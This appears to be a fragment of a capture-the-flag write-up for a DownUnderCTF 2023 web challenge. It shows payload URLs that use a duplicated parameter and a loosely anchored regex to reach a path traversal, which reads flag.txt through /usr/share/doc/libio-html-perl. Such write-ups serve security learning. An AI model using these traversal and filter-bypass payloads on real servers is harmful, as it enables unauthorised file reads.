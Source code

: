 `https://web-cgi-fridays-de834c0607c7.2023.ductf.dev/cgi-bin/route.pl?page=io&page=127.0.0.1`
+ Now just bypass the regex
/^stat|io|maps$/
+ Here io/../../../flag.txt didn't work as io isn't a directory
+ We need some directory which has io in it somewhere
`https://web-cgi-fridays-de834c0607c7.2023.ductf.dev/cgi-bin/route.pl?page=../../../../usr/share/doc/libio-html-perl/../../../../../flag.txt&page=127.0.0.1`
